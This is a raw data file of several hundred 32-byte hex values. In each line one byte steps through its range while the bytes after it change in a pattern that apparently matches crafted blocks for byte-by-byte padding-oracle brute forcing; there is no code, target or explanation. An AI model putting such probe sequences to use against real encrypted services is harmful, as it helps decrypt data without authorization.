0000000000000000000000000027f81300000000000000000000000000000000
0000000000000000000000000026f81300000000000000000000000000000000
0000000000000000000000000025f81300000000000000000000000000000000
0000000000000000000000000024f81300000000000000000000000000000000
0000000000000000000000000023f81300000000000000000000000000000000
0000000000000000000000000022f81300000000000000000000000000000000
0000000000000000000000000021f81300000000000000000000000000000000
0000000000000000000000000020f81300000000000000000000000000000000
000000000000000000000000001ff81300000000000000000000000000000000
000000000000000000000000001ef81300000000000000000000000000000000
000000000000000000000000001df81300000000000000000000000000000000
000000000000000000000000001cf81300000000000000000000000000000000
000000000000000000000000001bf81300000000000000000000000000000000
000000000000000000000000001af81300000000000000000000000000000000
0000000000000000000000000019f81300000000000000000000000000000000
0000000000000000000000000018f81300000000000000000000000000000000
0000000000000000000000000017f81300000000000000000000000000000000
0000000000000000000000000016f81300000000000000000000000000000000
0000000000000000000000000015f81300000000000000000000000000000000
0000000000000000000000000014f81300000000000000000000000000000000
0000000000000000000000000013f81300000000000000000000000000000000
0000000000000000000000000012f81300000000000000000000000000000000
0000000000000000000000000011f81300000000000000000000000000000000
0000000000000000000000000010f81300000000000000000000000000000000
000000000000000000000000000ff81300000000000000000000000000000000
000000000000000000000000000ef81300000000000000000000000000000000
000000000000000000000000000df81300000000000000000000000000000000
000000000000000000000000000cf81300000000000000000000000000000000
000000000000000000000000ff0bff1400000000000000000000000000000000
000000000000000000000000fe0bff1400000000000000000000000000000000
000000000000000000000000fd0bff1400000000000000000000000000000000
000000000000000000000000fc0bff1400000000000000000000000000000000
000000000000000000000000fb0bff1400000000000000000000000000000000
000000000000000000000000fa0bff1400000000000000000000000000000000
000000000000000000000000f90bff1400000000000000000000000000000000
000000000000000000000000f80bff1400000000000000000000000000000000
000000000000000000000000f70bff1400000000000000000000000000000000
000000000000000000000000f60bff1400000000000000000000000000000000
000000000000000000000000f50bff1400000000000000000000000000000000
000000000000000000000000f40bff1400000000000000000000000000000000
000000000000000000000000f30bff1400000000000000000000000000000000
000000000000000000000000f20bff1400000000000000000000000000000000
000000000000000000000000f10bff1400000000000000000000000000000000
000000000000000000000000f00bff1400000000000000000000000000000000
000000000000000000000000ef0bff1400000000000000000000000000000000
000000000000000000000000ee0bff1400000000000000000000000000000000
000000000000000000000000ed0bff1400000000000000000000000000000000
000000000000000000000000ec0bff1400000000000000000000000000000000
000000000000000000000000eb0bff1400000000000000000000000000000000
000000000000000000000000ea0bff1400000000000000000000000000000000
000000000000000000000000e90bff1400000000000000000000000000000000
000000000000000000000000e80bff1400000000000000000000000000000000
000000000000000000000000e70bff1400000000000000000000000000000000
000000000000000000000000e60bff1400000000000000000000000000000000
000000000000000000000000e50bff1400000000000000000000000000000000
000000000000000000000000e40bff1400000000000000000000000000000000
000000000000000000000000e30bff1400000000000000000000000000000000
000000000000000000000000e20bff1400000000000000000000000000000000
000000000000000000000000e10bff1400000000000000000000000000000000
000000000000000000000000e00bff1400000000000000000000000000000000
000000000000000000000000df0bff1400000000000000000000000000000000
000000000000000000000000de0bff1400000000000000000000000000000000
000000000000000000000000dd0bff1400000000000000000000000000000000
000000000000000000000000dc0bff1400000000000000000000000000000000
000000000000000000000000db0bff1400000000000000000000000000000000
000000000000000000000000da0bff1400000000000000000000000000000000
000000000000000000000000d90bff1400000000000000000000000000000000
000000000000000000000000d80bff1400000000000000000000000000000000
000000000000000000000000d70bff1400000000000000000000000000000000
000000000000000000000000d60bff1400000000000000000000000000000000
000000000000000000000000d50bff1400000000000000000000000000000000
000000000000000000000000d40bff1400000000000000000000000000000000
000000000000000000000000d30bff1400000000000000000000000000000000
000000000000000000000000d20bff1400000000000000000000000000000000
000000000000000000000000d10bff1400000000000000000000000000000000
000000000000000000000000d00bff1400000000000000000000000000000000
000000000000000000000000cf0bff1400000000000000000000000000000000
000000000000000000000000ce0bff1400000000000000000000000000000000
000000000000000000000000cd0bff1400000000000000000000000000000000
000000000000000000000000cc0bff1400000000000000000000000000000000
000000000000000000000000cb0bff1400000000000000000000000000000000
000000000000000000000000ca0bff1400000000000000000000000000000000
000000000000000000000000c90bff1400000000000000000000000000000000
000000000000000000000000c80bff1400000000000000000000000000000000
000000000000000000000000c70bff1400000000000000000000000000000000
000000000000000000000000c60bff1400000000000000000000000000000000
000000000000000000000000c50bff1400000000000000000000000000000000
000000000000000000000000c40bff1400000000000000000000000000000000
000000000000000000000000c30bff1400000000000000000000000000000000
000000000000000000000000c20bff1400000000000000000000000000000000
000000000000000000000000c10bff1400000000000000000000000000000000
000000000000000000000000c00bff1400000000000000000000000000000000
000000000000000000000000bf0bff1400000000000000000000000000000000
000000000000000000000000be0bff1400000000000000000000000000000000
000000000000000000000000bd0bff1400000000000000000000000000000000
000000000000000000000000bc0bff1400000000000000000000000000000000
000000000000000000000000bb0bff1400000000000000000000000000000000
000000000000000000000000ba0bff1400000000000000000000000000000000
000000000000000000000000b90bff1400000000000000000000000000000000
000000000000000000000000b80bff1400000000000000000000000000000000
000000000000000000000000b70bff1400000000000000000000000000000000
000000000000000000000000b60bff1400000000000000000000000000000000
000000000000000000000000b50bff1400000000000000000000000000000000
000000000000000000000000b40bff1400000000000000000000000000000000
000000000000000000000000b30bff1400000000000000000000000000000000
000000000000000000000000b20bff1400000000000000000000000000000000
000000000000000000000000b10bff1400000000000000000000000000000000
000000000000000000000000b00bff1400000000000000000000000000000000
000000000000000000000000af0bff1400000000000000000000000000000000
000000000000000000000000ae0bff1400000000000000000000000000000000
000000000000000000000000ad0bff1400000000000000000000000000000000
000000000000000000000000ac0bff1400000000000000000000000000000000
000000000000000000000000ab0bff1400000000000000000000000000000000
000000000000000000000000aa0bff1400000000000000000000000000000000
000000000000000000000000a90bff1400000000000000000000000000000000
000000000000000000000000a80bff1400000000000000000000000000000000
000000000000000000000000a70bff1400000000000000000000000000000000
000000000000000000000000a60bff1400000000000000000000000000000000
000000000000000000000000a50bff1400000000000000000000000000000000
000000000000000000000000a40bff1400000000000000000000000000000000
000000000000000000000000a30bff1400000000000000000000000000000000
000000000000000000000000a20bff1400000000000000000000000000000000
000000000000000000000000a10bff1400000000000000000000000000000000
000000000000000000000000a00bff1400000000000000000000000000000000
0000000000000000000000009f0bff1400000000000000000000000000000000
0000000000000000000000009e0bff1400000000000000000000000000000000
0000000000000000000000009d0bff1400000000000000000000000000000000
0000000000000000000000009c0bff1400000000000000000000000000000000
0000000000000000000000009b0bff1400000000000000000000000000000000
0000000000000000000000009a0bff1400000000000000000000000000000000
000000000000000000000000990bff1400000000000000000000000000000000
000000000000000000000000980bff1400000000000000000000000000000000
000000000000000000000000970bff1400000000000000000000000000000000
000000000000000000000000960bff1400000000000000000000000000000000
000000000000000000000000950bff1400000000000000000000000000000000
0000000000000000000000ff940afe1500000000000000000000000000000000
0000000000000000000000fe940afe1500000000000000000000000000000000
0000000000000000000000fd940afe1500000000000000000000000000000000
0000000000000000000000fc940afe1500000000000000000000000000000000
0000000000000000000000fb940afe1500000000000000000000000000000000
0000000000000000000000fa940afe1500000000000000000000000000000000
0000000000000000000000f9940afe1500000000000000000000000000000000
0000000000000000000000f8940afe1500000000000000000000000000000000
0000000000000000000000f7940afe1500000000000000000000000000000000
0000000000000000000000f6940afe1500000000000000000000000000000000
0000000000000000000000f5940afe1500000000000000000000000000000000
0000000000000000000000f4940afe1500000000000000000000000000000000
0000000000000000000000f3940afe1500000000000000000000000000000000
0000000000000000000000f2940afe1500000000000000000000000000000000
0000000000000000000000f1940afe1500000000000000000000000000000000
0000000000000000000000f0940afe1500000000000000000000000000000000
0000000000000000000000ef940afe1500000000000000000000000000000000
0000000000000000000000ee940afe1500000000000000000000000000000000
0000000000000000000000ed940afe1500000000000000000000000000000000
0000000000000000000000ec940afe1500000000000000000000000000000000
0000000000000000000000eb940afe1500000000000000000000000000000000
0000000000000000000000ea940afe1500000000000000000000000000000000
0000000000000000000000e9940afe1500000000000000000000000000000000
0000000000000000000000e8940afe1500000000000000000000000000000000
0000000000000000000000e7940afe1500000000000000000000000000000000
0000000000000000000000e6940afe1500000000000000000000000000000000
0000000000000000000000e5940afe1500000000000000000000000000000000
0000000000000000000000e4940afe1500000000000000000000000000000000
0000000000000000000000e3940afe1500000000000000000000000000000000
0000000000000000000000e2940afe1500000000000000000000000000000000
0000000000000000000000e1940afe1500000000000000000000000000000000
0000000000000000000000e0940afe1500000000000000000000000000000000
0000000000000000000000df940afe1500000000000000000000000000000000
0000000000000000000000de940afe1500000000000000000000000000000000
0000000000000000000000dd940afe1500000000000000000000000000000000
0000000000000000000000dc940afe1500000000000000000000000000000000
0000000000000000000000db940afe1500000000000000000000000000000000
0000000000000000000000da940afe1500000000000000000000000000000000
0000000000000000000000d9940afe1500000000000000000000000000000000
0000000000000000000000d8940afe1500000000000000000000000000000000
0000000000000000000000d7940afe1500000000000000000000000000000000
0000000000000000000000d6940afe1500000000000000000000000000000000
0000000000000000000000d5940afe1500000000000000000000000000000000
0000000000000000000000d4940afe1500000000000000000000000000000000
0000000000000000000000d3940afe1500000000000000000000000000000000
0000000000000000000000d2940afe1500000000000000000000000000000000
0000000000000000000000d1940afe1500000000000000000000000000000000
0000000000000000000000d0940afe1500000000000000000000000000000000
0000000000000000000000cf940afe1500000000000000000000000000000000
0000000000000000000000ce940afe1500000000000000000000000000000000
0000000000000000000000cd940afe1500000000000000000000000000000000
0000000000000000000000cc940afe1500000000000000000000000000000000
0000000000000000000000cb940afe1500000000000000000000000000000000
0000000000000000000000ca940afe1500000000000000000000000000000000
0000000000000000000000c9940afe1500000000000000000000000000000000
0000000000000000000000c8940afe1500000000000000000000000000000000
0000000000000000000000c7940afe1500000000000000000000000000000000
0000000000000000000000c6940afe1500000000000000000000000000000000
0000000000000000000000c5940afe1500000000000000000000000000000000
0000000000000000000000c4940afe1500000000000000000000000000000000
0000000000000000000000c3940afe1500000000000000000000000000000000
0000000000000000000000c2940afe1500000000000000000000000000000000
0000000000000000000000c1940afe1500000000000000000000000000000000
0000000000000000000000c0940afe1500000000000000000000000000000000
0000000000000000000000bf940afe1500000000000000000000000000000000
0000000000000000000000be940afe1500000000000000000000000000000000
0000000000000000000000bd940afe1500000000000000000000000000000000
0000000000000000000000bc940afe1500000000000000000000000000000000
0000000000000000000000bb940afe1500000000000000000000000000000000
0000000000000000000000ba940afe1500000000000000000000000000000000
0000000000000000000000b9940afe1500000000000000000000000000000000
0000000000000000000000b8940afe1500000000000000000000000000000000
0000000000000000000000b7940afe1500000000000000000000000000000000
0000000000000000000000b6940afe1500000000000000000000000000000000
0000000000000000000000b5940afe1500000000000000000000000000000000
0000000000000000000000b4940afe1500000000000000000000000000000000
0000000000000000000000b3940afe1500000000000000000000000000000000
0000000000000000000000b2940afe1500000000000000000000000000000000
0000000000000000000000b1940afe1500000000000000000000000000000000
0000000000000000000000b0940afe1500000000000000000000000000000000
0000000000000000000000af940afe1500000000000000000000000000000000
0000000000000000000000ae940afe1500000000000000000000000000000000
0000000000000000000000ad940afe1500000000000000000000000000000000
0000000000000000000000ac940afe1500000000000000000000000000000000
0000000000000000000000ab940afe1500000000000000000000000000000000
0000000000000000000000aa940afe1500000000000000000000000000000000
0000000000000000000000a9940afe1500000000000000000000000000000000
0000000000000000000000a8940afe1500000000000000000000000000000000
0000000000000000000000a7940afe1500000000000000000000000000000000
0000000000000000000000a6940afe1500000000000000000000000000000000
0000000000000000000000a5940afe1500000000000000000000000000000000
0000000000000000000000a4940afe1500000000000000000000000000000000
0000000000000000000000a3940afe1500000000000000000000000000000000
0000000000000000000000a2940afe1500000000000000000000000000000000
0000000000000000000000a1940afe1500000000000000000000000000000000
0000000000000000000000a0940afe1500000000000000000000000000000000
00000000000000000000009f940afe1500000000000000000000000000000000
00000000000000000000009e940afe1500000000000000000000000000000000
00000000000000000000009d940afe1500000000000000000000000000000000
00000000000000000000009c940afe1500000000000000000000000000000000
00000000000000000000009b940afe1500000000000000000000000000000000
00000000000000000000009a940afe1500000000000000000000000000000000
000000000000000000000099940afe1500000000000000000000000000000000
000000000000000000000098940afe1500000000000000000000000000000000
000000000000000000000097940afe1500000000000000000000000000000000
000000000000000000000096940afe1500000000000000000000000000000000
000000000000000000000095940afe1500000000000000000000000000000000
000000000000000000000094940afe1500000000000000000000000000000000
000000000000000000000093940afe1500000000000000000000000000000000
000000000000000000000092940afe1500000000000000000000000000000000
000000000000000000000091940afe1500000000000000000000000000000000
00000000000000000000ff929709fd1600000000000000000000000000000000
00000000000000000000fe929709fd1600000000000000000000000000000000
00000000000000000000fd929709fd1600000000000000000000000000000000
00000000000000000000fc929709fd1600000000000000000000000000000000
00000000000000000000fb929709fd1600000000000000000000000000000000
00000000000000000000fa929709fd1600000000000000000000000000000000
00000000000000000000f9929709fd1600000000000000000000000000000000
00000000000000000000f8929709fd1600000000000000000000000000000000
00000000000000000000f7929709fd1600000000000000000000000000000000
00000000000000000000f6929709fd1600000000000000000000000000000000
00000000000000000000f5929709fd1600000000000000000000000000000000
00000000000000000000f4929709fd1600000000000000000000000000000000
00000000000000000000f3929709fd1600000000000000000000000000000000
00000000000000000000f2929709fd1600000000000000000000000000000000
00000000000000000000f1929709fd1600000000000000000000000000000000
00000000000000000000f0929709fd1600000000000000000000000000000000
00000000000000000000ef929709fd1600000000000000000000000000000000
00000000000000000000ee929709fd1600000000000000000000000000000000
00000000000000000000ed929709fd1600000000000000000000000000000000
00000000000000000000ec929709fd1600000000000000000000000000000000
00000000000000000000eb929709fd1600000000000000000000000000000000
00000000000000000000ea929709fd1600000000000000000000000000000000
00000000000000000000e9929709fd1600000000000000000000000000000000
00000000000000000000e8929709fd1600000000000000000000000000000000
00000000000000000000e7929709fd1600000000000000000000000000000000
00000000000000000000e6929709fd1600000000000000000000000000000000
00000000000000000000e5929709fd1600000000000000000000000000000000
00000000000000000000e4929709fd1600000000000000000000000000000000
00000000000000000000e3929709fd1600000000000000000000000000000000
00000000000000000000e2929709fd1600000000000000000000000000000000
00000000000000000000e1929709fd1600000000000000000000000000000000
00000000000000000000e0929709fd1600000000000000000000000000000000
00000000000000000000df929709fd1600000000000000000000000000000000
00000000000000000000de929709fd1600000000000000000000000000000000
00000000000000000000dd929709fd1600000000000000000000000000000000
00000000000000000000dc929709fd1600000000000000000000000000000000
00000000000000000000db929709fd1600000000000000000000000000000000
00000000000000000000da929709fd1600000000000000000000000000000000
00000000000000000000d9929709fd1600000000000000000000000000000000
00000000000000000000d8929709fd1600000000000000000000000000000000
00000000000000000000d7929709fd1600000000000000000000000000000000
00000000000000000000d6929709fd1600000000000000000000000000000000
00000000000000000000d5929709fd1600000000000000000000000000000000
00000000000000000000d4929709fd1600000000000000000000000000000000
00000000000000000000d3929709fd1600000000000000000000000000000000
00000000000000000000d2929709fd1600000000000000000000000000000000
00000000000000000000d1929709fd1600000000000000000000000000000000
00000000000000000000d0929709fd1600000000000000000000000000000000
00000000000000000000cf929709fd1600000000000000000000000000000000
00000000000000000000ce929709fd1600000000000000000000000000000000
00000000000000000000cd929709fd1600000000000000000000000000000000
00000000000000000000cc929709fd1600000000000000000000000000000000
00000000000000000000cb929709fd1600000000000000000000000000000000
00000000000000000000ca929709fd1600000000000000000000000000000000
00000000000000000000c9929709fd1600000000000000000000000000000000
00000000000000000000c8929709fd1600000000000000000000000000000000
00000000000000000000c7929709fd1600000000000000000000000000000000
00000000000000000000c6929709fd1600000000000000000000000000000000
00000000000000000000c5929709fd1600000000000000000000000000000000
00000000000000000000c4929709fd1600000000000000000000000000000000
00000000000000000000c3929709fd1600000000000000000000000000000000
00000000000000000000c2929709fd1600000000000000000000000000000000
00000000000000000000c1929709fd1600000000000000000000000000000000
00000000000000000000c0929709fd1600000000000000000000000000000000
00000000000000000000bf929709fd1600000000000000000000000000000000
00000000000000000000be929709fd1600000000000000000000000000000000
00000000000000000000bd929709fd1600000000000000000000000000000000
00000000000000000000bc929709fd1600000000000000000000000000000000
00000000000000000000bb929709fd1600000000000000000000000000000000
00000000000000000000ba929709fd1600000000000000000000000000000000
00000000000000000000b9929709fd1600000000000000000000000000000000
00000000000000000000b8929709fd1600000000000000000000000000000000
00000000000000000000b7929709fd1600000000000000000000000000000000
00000000000000000000b6929709fd1600000000000000000000000000000000
00000000000000000000b5929709fd1600000000000000000000000000000000
00000000000000000000b4929709fd1600000000000000000000000000000000
00000000000000000000b3929709fd1600000000000000000000000000000000
00000000000000000000b2929709fd1600000000000000000000000000000000
00000000000000000000b1929709fd1600000000000000000000000000000000
00000000000000000000b0929709fd1600000000000000000000000000000000
00000000000000000000af929709fd1600000000000000000000000000000000
00000000000000000000ae929709fd1600000000000000000000000000000000
00000000000000000000ad929709fd1600000000000000000000000000000000
00000000000000000000ac929709fd1600000000000000000000000000000000
00000000000000000000ab929709fd1600000000000000000000000000000000
00000000000000000000aa929709fd1600000000000000000000000000000000
00000000000000000000a9929709fd1600000000000000000000000000000000
00000000000000000000a8929709fd1600000000000000000000000000000000
00000000000000000000a7929709fd1600000000000000000000000000000000
00000000000000000000a6929709fd1600000000000000000000000000000000
00000000000000000000a5929709fd1600000000000000000000000000000000
00000000000000000000a4929709fd1600000000000000000000000000000000
00000000000000000000a3929709fd1600000000000000000000000000000000
00000000000000000000a2929709fd1600000000000000000000000000000000
00000000000000000000a1929709fd1600000000000000000000000000000000
00000000000000000000a0929709fd1600000000000000000000000000000000
000000000000000000009f929709fd1600000000000000000000000000000000
000000000000000000009e929709fd1600000000000000000000000000000000
000000000000000000009d929709fd1600000000000000000000000000000000
000000000000000000009c929709fd1600000000000000000000000000000000
000000000000000000009b929709fd1600000000000000000000000000000000
000000000000000000009a929709fd1600000000000000000000000000000000
0000000000000000000099929709fd1600000000000000000000000000000000
0000000000000000000098929709fd1600000000000000000000000000000000
0000000000000000000097929709fd1600000000000000000000000000000000
0000000000000000000096929709fd1600000000000000000000000000000000
0000000000000000000095929709fd1600000000000000000000000000000000
0000000000000000000094929709fd1600000000000000000000000000000000
0000000000000000000093929709fd1600000000000000000000000000000000
0000000000000000000092929709fd1600000000000000000000000000000000
0000000000000000000091929709fd1600000000000000000000000000000000
0000000000000000000090929709fd1600000000000000000000000000000000
000000000000000000008f929709fd1600000000000000000000000000000000
000000000000000000008e929709fd1600000000000000000000000000000000
000000000000000000008d929709fd1600000000000000000000000000000000
000000000000000000008c929709fd1600000000000000000000000000000000
000000000000000000008b929709fd1600000000000000000000000000000000
000000000000000000008a929709fd1600000000000000000000000000000000
0000000000000000000089929709fd1600000000000000000000000000000000
0000000000000000000088929709fd1600000000000000000000000000000000
0000000000000000000087929709fd1600000000000000000000000000000000
0000000000000000000086929709fd1600000000000000000000000000000000
0000000000000000000085929709fd1600000000000000000000000000000000
0000000000000000000084929709fd1600000000000000000000000000000000
0000000000000000000083929709fd1600000000000000000000000000000000
0000000000000000000082929709fd1600000000000000000000000000000000
0000000000000000000081929709fd1600000000000000000000000000000000
0000000000000000000080929709fd1600000000000000000000000000000000
000000000000000000ff81939608fc1700000000000000000000000000000000
000000000000000000fe81939608fc1700000000000000000000000000000000
000000000000000000fd81939608fc1700000000000000000000000000000000
000000000000000000fc81939608fc1700000000000000000000000000000000
000000000000000000fb81939608fc1700000000000000000000000000000000
000000000000000000fa81939608fc1700000000000000000000000000000000
000000000000000000f981939608fc1700000000000000000000000000000000
000000000000000000f881939608fc1700000000000000000000000000000000
000000000000000000f781939608fc1700000000000000000000000000000000
000000000000000000f681939608fc1700000000000000000000000000000000
000000000000000000f581939608fc1700000000000000000000000000000000
000000000000000000f481939608fc1700000000000000000000000000000000
000000000000000000f381939608fc1700000000000000000000000000000000
000000000000000000f281939608fc1700000000000000000000000000000000
000000000000000000f181939608fc1700000000000000000000000000000000
000000000000000000f081939608fc1700000000000000000000000000000000
000000000000000000ef81939608fc1700000000000000000000000000000000
000000000000000000ee81939608fc1700000000000000000000000000000000
000000000000000000ed81939608fc1700000000000000000000000000000000
000000000000000000ec81939608fc1700000000000000000000000000000000
000000000000000000eb81939608fc1700000000000000000000000000000000
000000000000000000ea81939608fc1700000000000000000000000000000000
000000000000000000e981939608fc1700000000000000000000000000000000
000000000000000000e881939608fc1700000000000000000000000000000000
000000000000000000e781939608fc1700000000000000000000000000000000
000000000000000000e681939608fc1700000000000000000000000000000000
000000000000000000e581939608fc1700000000000000000000000000000000
000000000000000000e481939608fc1700000000000000000000000000000000
000000000000000000e381939608fc1700000000000000000000000000000000
000000000000000000e281939608fc1700000000000000000000000000000000
000000000000000000e181939608fc1700000000000000000000000000000000
000000000000000000e081939608fc1700000000000000000000000000000000
000000000000000000df81939608fc1700000000000000000000000000000000
000000000000000000de81939608fc1700000000000000000000000000000000
000000000000000000dd81939608fc1700000000000000000000000000000000
000000000000000000dc81939608fc1700000000000000000000000000000000
000000000000000000db81939608fc1700000000000000000000000000000000
000000000000000000da81939608fc1700000000000000000000000000000000
000000000000000000d981939608fc1700000000000000000000000000000000
000000000000000000d881939608fc1700000000000000000000000000000000
000000000000000000d781939608fc1700000000000000000000000000000000
000000000000000000d681939608fc1700000000000000000000000000000000
000000000000000000d581939608fc1700000000000000000000000000000000
000000000000000000d481939608fc1700000000000000000000000000000000
000000000000000000d381939608fc1700000000000000000000000000000000
000000000000000000d281939608fc1700000000000000000000000000000000
000000000000000000d181939608fc1700000000000000000000000000000000
000000000000000000d081939608fc1700000000000000000000000000000000
000000000000000000cf81939608fc1700000000000000000000000000000000
000000000000000000ce81939608fc1700000000000000000000000000000000
000000000000000000cd81939608fc1700000000000000000000000000000000
000000000000000000cc81939608fc1700000000000000000000000000000000
000000000000000000cb81939608fc1700000000000000000000000000000000
000000000000000000ca81939608fc1700000000000000000000000000000000
000000000000000000c981939608fc1700000000000000000000000000000000
000000000000000000c881939608fc1700000000000000000000000000000000
000000000000000000c781939608fc1700000000000000000000000000000000
000000000000000000c681939608fc1700000000000000000000000000000000
000000000000000000c581939608fc1700000000000000000000000000000000
000000000000000000c481939608fc1700000000000000000000000000000000
000000000000000000c381939608fc1700000000000000000000000000000000
000000000000000000c281939608fc1700000000000000000000000000000000
000000000000000000c181939608fc1700000000000000000000000000000000
000000000000000000c081939608fc1700000000000000000000000000000000
000000000000000000bf81939608fc1700000000000000000000000000000000
000000000000000000be81939608fc1700000000000000000000000000000000
000000000000000000bd81939608fc1700000000000000000000000000000000
000000000000000000bc81939608fc1700000000000000000000000000000000
000000000000000000bb81939608fc1700000000000000000000000000000000
000000000000000000ba81939608fc1700000000000000000000000000000000
000000000000000000b981939608fc1700000000000000000000000000000000
000000000000000000b881939608fc1700000000000000000000000000000000
000000000000000000b781939608fc1700000000000000000000000000000000
000000000000000000b681939608fc1700000000000000000000000000000000
000000000000000000b581939608fc1700000000000000000000000000000000
000000000000000000b481939608fc1700000000000000000000000000000000
000000000000000000b381939608fc1700000000000000000000000000000000
000000000000000000b281939608fc1700000000000000000000000000000000
000000000000000000b181939608fc1700000000000000000000000000000000
000000000000000000b081939608fc1700000000000000000000000000000000
000000000000000000af81939608fc1700000000000000000000000000000000
000000000000000000ae81939608fc1700000000000000000000000000000000
000000000000000000ad81939608fc1700000000000000000000000000000000
000000000000000000ac81939608fc1700000000000000000000000000000000
000000000000000000ab81939608fc1700000000000000000000000000000000
000000000000000000aa81939608fc1700000000000000000000000000000000
000000000000000000a981939608fc1700000000000000000000000000000000
000000000000000000a881939608fc1700000000000000000000000000000000
000000000000000000a781939608fc1700000000000000000000000000000000
000000000000000000a681939608fc1700000000000000000000000000000000
000000000000000000a581939608fc1700000000000000000000000000000000
000000000000000000a481939608fc1700000000000000000000000000000000
000000000000000000a381939608fc1700000000000000000000000000000000
000000000000000000a281939608fc1700000000000000000000000000000000
000000000000000000a181939608fc1700000000000000000000000000000000
000000000000000000a081939608fc1700000000000000000000000000000000
0000000000000000009f81939608fc1700000000000000000000000000000000
0000000000000000009e81939608fc1700000000000000000000000000000000
0000000000000000009d81939608fc1700000000000000000000000000000000
0000000000000000009c81939608fc1700000000000000000000000000000000
0000000000000000009b81939608fc1700000000000000000000000000000000
0000000000000000009a81939608fc1700000000000000000000000000000000
0000000000000000009981939608fc1700000000000000000000000000000000
0000000000000000009881939608fc1700000000000000000000000000000000
0000000000000000009781939608fc1700000000000000000000000000000000
0000000000000000009681939608fc1700000000000000000000000000000000
0000000000000000009581939608fc1700000000000000000000000000000000
0000000000000000009481939608fc1700000000000000000000000000000000
0000000000000000009381939608fc1700000000000000000000000000000000
0000000000000000009281939608fc1700000000000000000000000000000000
0000000000000000009181939608fc1700000000000000000000000000000000
0000000000000000009081939608fc1700000000000000000000000000000000
0000000000000000008f81939608fc1700000000000000000000000000000000
0000000000000000008e81939608fc1700000000000000000000000000000000
0000000000000000008d81939608fc1700000000000000000000000000000000
0000000000000000008c81939608fc1700000000000000000000000000000000
0000000000000000008b81939608fc1700000000000000000000000000000000
0000000000000000008a81939608fc1700000000000000000000000000000000
0000000000000000008981939608fc1700000000000000000000000000000000
0000000000000000008881939608fc1700000000000000000000000000000000
0000000000000000008781939608fc1700000000000000000000000000000000
0000000000000000008681939608fc1700000000000000000000000000000000
0000000000000000008581939608fc1700000000000000000000000000000000
0000000000000000008481939608fc1700000000000000000000000000000000
0000000000000000008381939608fc1700000000000000000000000000000000
0000000000000000008281939608fc1700000000000000000000000000000000
0000000000000000008181939608fc1700000000000000000000000000000000
0000000000000000008081939608fc1700000000000000000000000000000000
0000000000000000007f81939608fc1700000000000000000000000000000000
0000000000000000007e81939608fc1700000000000000000000000000000000
0000000000000000007d81939608fc1700000000000000000000000000000000
0000000000000000007c81939608fc1700000000000000000000000000000000
0000000000000000007b81939608fc1700000000000000000000000000000000
0000000000000000007a81939608fc1700000000000000000000000000000000
0000000000000000007981939608fc1700000000000000000000000000000000
0000000000000000007881939608fc1700000000000000000000000000000000
0000000000000000007781939608fc1700000000000000000000000000000000
0000000000000000007681939608fc1700000000000000000000000000000000
0000000000000000007581939608fc1700000000000000000000000000000000
0000000000000000007481939608fc1700000000000000000000000000000000
0000000000000000007381939608fc1700000000000000000000000000000000
0000000000000000007281939608fc1700000000000000000000000000000000
0000000000000000007181939608fc1700000000000000000000000000000000
0000000000000000007081939608fc1700000000000000000000000000000000
0000000000000000006f81939608fc1700000000000000000000000000000000
0000000000000000006e81939608fc1700000000000000000000000000000000
0000000000000000006d81939608fc1700000000000000000000000000000000
0000000000000000006c81939608fc1700000000000000000000000000000000
0000000000000000006b81939608fc1700000000000000000000000000000000
0000000000000000006a81939608fc1700000000000000000000000000000000
0000000000000000006981939608fc1700000000000000000000000000000000
0000000000000000006881939608fc1700000000000000000000000000000000
0000000000000000006781939608fc1700000000000000000000000000000000
0000000000000000006681939608fc1700000000000000000000000000000000
0000000000000000006581939608fc1700000000000000000000000000000000
0000000000000000006481939608fc1700000000000000000000000000000000
0000000000000000006381939608fc1700000000000000000000000000000000
0000000000000000006281939608fc1700000000000000000000000000000000
0000000000000000006181939608fc1700000000000000000000000000000000
0000000000000000006081939608fc1700000000000000000000000000000000
0000000000000000005f81939608fc1700000000000000000000000000000000
0000000000000000005e81939608fc1700000000000000000000000000000000
0000000000000000005d81939608fc1700000000000000000000000000000000
0000000000000000005c81939608fc1700000000000000000000000000000000
0000000000000000005b81939608fc1700000000000000000000000000000000
0000000000000000005a81939608fc1700000000000000000000000000000000
0000000000000000005981939608fc1700000000000000000000000000000000
0000000000000000005881939608fc1700000000000000000000000000000000
0000000000000000005781939608fc1700000000000000000000000000000000
0000000000000000005681939608fc1700000000000000000000000000000000
0000000000000000005581939608fc1700000000000000000000000000000000
0000000000000000005481939608fc1700000000000000000000000000000000
0000000000000000005381939608fc1700000000000000000000000000000000
0000000000000000005281939608fc1700000000000000000000000000000000
0000000000000000005181939608fc1700000000000000000000000000000000
0000000000000000005081939608fc1700000000000000000000000000000000
0000000000000000004f81939608fc1700000000000000000000000000000000
0000000000000000004e81939608fc1700000000000000000000000000000000
0000000000000000004d81939608fc1700000000000000000000000000000000
0000000000000000004c81939608fc1700000000000000000000000000000000
0000000000000000004b81939608fc1700000000000000000000000000000000
0000000000000000004a81939608fc1700000000000000000000000000000000
0000000000000000004981939608fc1700000000000000000000000000000000
0000000000000000004881939608fc1700000000000000000000000000000000
0000000000000000004781939608fc1700000000000000000000000000000000
0000000000000000004681939608fc1700000000000000000000000000000000
0000000000000000004581939608fc1700000000000000000000000000000000
0000000000000000004481939608fc1700000000000000000000000000000000
0000000000000000004381939608fc1700000000000000000000000000000000
0000000000000000004281939608fc1700000000000000000000000000000000
0000000000000000004181939608fc1700000000000000000000000000000000
0000000000000000004081939608fc1700000000000000000000000000000000
0000000000000000003f81939608fc1700000000000000000000000000000000
0000000000000000003e81939608fc1700000000000000000000000000000000
0000000000000000003d81939608fc1700000000000000000000000000000000
0000000000000000003c81939608fc1700000000000000000000000000000000
0000000000000000003b81939608fc1700000000000000000000000000000000
0000000000000000003a81939608fc1700000000000000000000000000000000
0000000000000000003981939608fc1700000000000000000000000000000000
0000000000000000003881939608fc1700000000000000000000000000000000
0000000000000000003781939608fc1700000000000000000000000000000000
0000000000000000003681939608fc1700000000000000000000000000000000
0000000000000000003581939608fc1700000000000000000000000000000000
0000000000000000003481939608fc1700000000000000000000000000000000
0000000000000000003381939608fc1700000000000000000000000000000000
0000000000000000003281939608fc1700000000000000000000000000000000
0000000000000000003181939608fc1700000000000000000000000000000000
0000000000000000003081939608fc1700000000000000000000000000000000
0000000000000000002f81939608fc1700000000000000000000000000000000
0000000000000000002e81939608fc1700000000000000000000000000000000
0000000000000000002d81939608fc1700000000000000000000000000000000
0000000000000000002c81939608fc1700000000000000000000000000000000
0000000000000000002b81939608fc1700000000000000000000000000000000
0000000000000000002a81939608fc1700000000000000000000000000000000
0000000000000000002981939608fc1700000000000000000000000000000000
0000000000000000002881939608fc1700000000000000000000000000000000
